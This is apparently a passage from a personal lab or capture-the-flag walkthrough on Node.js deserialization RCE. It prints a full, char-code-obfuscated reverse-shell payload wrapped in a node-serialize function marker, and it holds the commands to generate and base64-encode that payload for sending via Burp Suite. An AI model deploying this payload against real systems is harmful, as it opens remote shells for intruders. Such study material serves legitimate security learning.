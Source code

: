 ```Python
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```
___
```shell
python2.7 nodejsshellpy.py 192.168.200.128 4646
```
![[Pasted image 20230731210434.png]]
___
Then, we have to add the whole string into our *new* serializer data.
```txt
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,50,48,48,46,49,50,56,34,59,10,80,79,82,84,61,34,52,54,52,54,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
![[Pasted image 20230731210809.png]]
___
After that, we must to convert that string to **base64** and send it with *BurpSuite*.
```shell
cat data | base64 -w 0; echo
```
![[Pasted image 20230731211246.png]]
We successfully performed an *RCE*.
___